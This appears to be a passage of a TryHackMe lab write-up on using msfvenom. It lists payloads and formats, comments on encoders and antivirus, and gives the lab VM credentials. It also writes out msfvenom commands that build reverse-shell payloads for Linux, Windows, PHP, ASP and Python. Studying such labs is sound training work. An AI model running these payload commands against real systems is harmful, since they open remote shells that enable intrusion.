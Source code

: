 ![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/c7b8ab2e-2fe5-4055-9b97-22e056f845f2)

        8ce9a3ebd1647fcc5e04025019f4b875

## Task 6: Msfvenom 

Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads

Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

`msfvenom -l payloads`

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7e7d36c0-e4f9-488d-ad46-2e37cad69321)

`msfvenom --list formats` will list supported output formats.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7d09d021-7c6c-471c-a512-d2247d2e8b85)

### Encoders

Encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1bb27eec-9de2-45ba-8454-23becc842000)

### Reverse payloads 

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf   // Linux
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe     // Windows
    msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php         // PHP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp     // ASP
    msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py              // Python

### 1. Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/01b0f0be-3f5e-490d-809d-4c2df6800133)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/c0e24eda-62ff-49ec-9749-b263d2194511)
